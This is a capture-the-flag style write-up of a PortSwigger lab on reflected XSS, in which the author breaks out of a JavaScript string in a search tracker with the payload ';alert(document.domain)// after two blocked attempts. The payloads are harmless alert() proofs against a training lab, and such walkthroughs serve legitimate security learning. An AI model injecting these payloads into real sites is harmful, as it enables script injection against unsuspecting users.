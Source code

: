 # Reflected XSS into a JavaScript string with angle brackets HTML encoded

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded), you'll learn: Reflected XSS into a JavaScript string with angle brackets HTML encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071233.png)

In here, we can there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071314.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071330.png)

As you can see, our input is reflected to the web page.

**Let's try to inject a JavaScript code that calls function `alert()`:**
```html
<script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071433.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;alert(document.domain)&lt;/script&gt;'</h1>
    <hr>
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = '&lt;script&gt;alert(document.domain)&lt;/script&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

In here, we can see that our `<>` were HTML encoded.

Also, **our input is being parsed to the `document.write`.**

**Let's try to break that JavaScript string:**
```html
'" onload=alert(document.domain) close="
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229072054.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&apos;&quot; onload=alert(document.domain) close=&quot;'</h1>
    <hr>
</section>
```

Hmm... **Looks like we can't use `<>'"`.**

**To breaking out of a string literal, we can use:**
```js
';alert(document.domain)//
```

The `';` is to end the string and the current JavaScript line, then the `//` is to commented out the reset of the JavaScript code.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229072351.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229072358.png)

We did it!

# What we've learned:

1. Reflected XSS into a JavaScript string with angle brackets HTML encoded